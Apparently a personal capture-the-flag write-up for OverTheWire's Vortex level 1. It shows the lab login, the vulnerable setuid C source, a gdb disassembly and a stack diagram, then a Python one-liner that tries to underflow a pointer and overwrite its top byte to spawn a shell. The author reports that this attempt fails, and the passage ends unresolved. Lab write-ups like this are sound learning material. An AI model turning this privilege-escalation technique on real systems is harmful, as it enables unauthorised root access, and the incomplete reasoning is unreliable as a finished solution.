 ## VORTEX1

Login to the vortex1 challenge via ssh :

```
critical@d3ad:~$ ssh vortex1@vortex.labs.overthewire.org -p 2228

                 _            
__   _____  _ __| |_ _____  __
\ \ / / _ \| '__| __/ _ \ \/ /
 \ V / (_) | |  | ||  __/>  < 
  \_/ \___/|_|   \__\___/_/\_\
                              
a http://www.overthewire.org wargame.

vortex1@vortex.labs.overthewire.org's password: Gq#qu3bF3
```

The first step was finding the `vortex1` binary and identifying its filetype.

```
vortex1@vortex:~$ find / -type f -name vortex1* 2> /dev/null
/etc/vortex_pass/vortex16
/etc/vortex_pass/vortex19
/etc/vortex_pass/vortex11
/etc/vortex_pass/vortex13
/etc/vortex_pass/vortex18
/etc/vortex_pass/vortex14
/etc/vortex_pass/vortex15
/etc/vortex_pass/vortex1
/etc/vortex_pass/vortex10
/etc/vortex_pass/vortex12
/etc/vortex_pass/vortex17
/vortex/vortex16
/vortex/vortex19
/vortex/vortex11
/vortex/vortex13
/vortex/vortex18
/vortex/vortex15
/vortex/vortex14.txt
/vortex/vortex1
/vortex/vortex10
/vortex/vortex15.tar.Z.enc
/vortex/vortex12
/vortex/vortex17

vortex1@vortex:~$ file /vortex/vortex1
/vortex/vortex1: setuid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=09bc7b2fb83746b16c27d56e7fc2da484d15601e, not stripped

```

So, the binary is located at `/vortex/` directory.

Let's have a look at the source code and find the vulnerability -

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>


#define e(); if(((unsigned int)ptr & 0xff000000)==0xca000000) { setresuid(geteuid(), geteuid(), geteuid()); execlp("/bin/sh", "sh", "-i", NULL); }

void print(unsigned char *buf, int len)
{
        int i;

        printf("[ ");
        for(i=0; i < len; i++) printf("%x ", buf[i]); 
        printf(" ]\n");
}

int main()
{
        unsigned char buf[512];
        unsigned char *ptr = buf + (sizeof(buf)/2);
        unsigned int x;

        while((x = getchar()) != EOF) {
                switch(x) {
                        case '\n': print(buf, sizeof(buf)); continue; break;
                        case '\\': ptr--; break; 
                        default: e(); if(ptr > buf + sizeof(buf)) continue; ptr++[0] = x; break;
                }
        }
        printf("All done\n");
}

```
According to the Source code -

* ptr is initialized to point to the middle of a 512 bytes buffer, i.e. at (buf + 256).
* We can give three types of input 
1. A **'\n'** character which when provided at the end of our input will print out the whole buffer for us.
2. A **'\\** character which will decrement the pointer 'ptr'.
3. Any other character which checks if value of **ptr** after bitwise-AND'ing it with 0xff000000 is equal to 0xca000000 or not. If it is equal, `/bin/sh` program is spawned. 

So, our goal here is to somehow write the most-significant byte of `ptr` with `"\xca"` such that when ptr (0xcaxxxxxx) is masked with 0xff000000, it gives the output `0xca000000` and shell is spawned.

Let's have a look at the disassembly of the binary.
```
vortex1@vortex:~$ gdb -q /vortex/vortex1
Reading symbols from /vortex/vortex1...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
   0x080485c0 <+0>:	push   ebp
  ...
   0x080485c8 <+8>:	sub    esp,0x220
```
 0x080485c8 <+8> : Reserves space for main()'s stack frame which is 0x220 (544) bytes in size.


```
   0x080485ce <+14>:	mov    eax,gs:0x14
   0x080485d4 <+20>:	mov    DWORD PTR [esp+0x21c],eax
```
Here, a /GS stack cookie (placing stack cannary, which is a mitigation technique) is placed after the buffer so that when the memory corruption occurs and attempts to overwrite the return pointer, it first corrupts the stack cannary and stack smashing is detected.

So, I was quite sure of not overflowing the buffer to higher addresses, but how could I then be able to change the value stored in `ptr`. I had a possibility in mind that giving huge amount of "\\" as input which decrements the ptr upto 0xcaxxxxxx but that probably won't work out. 


```
   0x080485db <+27>:	xor    eax,eax
   0x080485dd <+29>:	lea    eax,[esp+0x1c]
   0x080485e1 <+33>:	add    eax,0x100

   0x080485e6 <+38>:	mov    DWORD PTR [esp+0x14],eax
   ...
```
Here, `[esp+0x14]` is `ptr` (wich on <+33> gets incremented by 0x100 or 256 bytes) and `[esp+0x1c]` is `buf`.
```  
   0x0804868e <+206>:	call   0x8048400 <getchar@plt>
   0x08048693 <+211>:	mov    DWORD PTR [esp+0x18],eax
```
Here, `[esp+0x18]` is `variable x`.

To find the vulnerability, we would have to analyse how main()'s 
stack frame is organised.

```
                 0x00000000
                    .
                    .
            |----------------|
            |       ptr      | <- [esp + 0x14]
            |----------------|
            |   variable x   | <- [esp + 0x18]
            |----------------|
            |                |
            |                | 
            |    buf[512]    | <-- ptr (where pointer to : buf + 256)
            |                |
            |                |
            |----------------|            
            | Stack Cannary  |
            |----------------|
            | Saved EBP      |
            |----------------|
            | Return Pointer |
             ^^^^^^^^^^^^^^^^
                    .
                    .
                0xffffffff

```
We cannot move `ptr` down (out of bounds of buf), but we surely can move the `ptr` up and reach out location of `ptr` variable. If we overwrite the most significant byte of ptr to `0xca` and call e(), it would spawn a shell

For this, I used python to craft an input. First we decrement `ptr` to 261 characters (i.e. 256 characters to reach the start of `buf` and then decrementing by 4 to reach the `variable x`, then decrementing by 1 to reach the most significant byte of `ptr`(read about [endianess])). 

```
vortex1@vortex:~$ python -c 'print "\\"*256 + "\\"*5 + "\xca" + "A"*256 '| /vortex/vortex1
vortex1@vortex:~$
```
But it seems that nothing happens. But why ?






NAME  : **ABHINAV THAKUR** <br>
EMAIL : **compilepeace@gmail.com**

[endianess]: https://en.wikipedia.org/wiki/Endianness
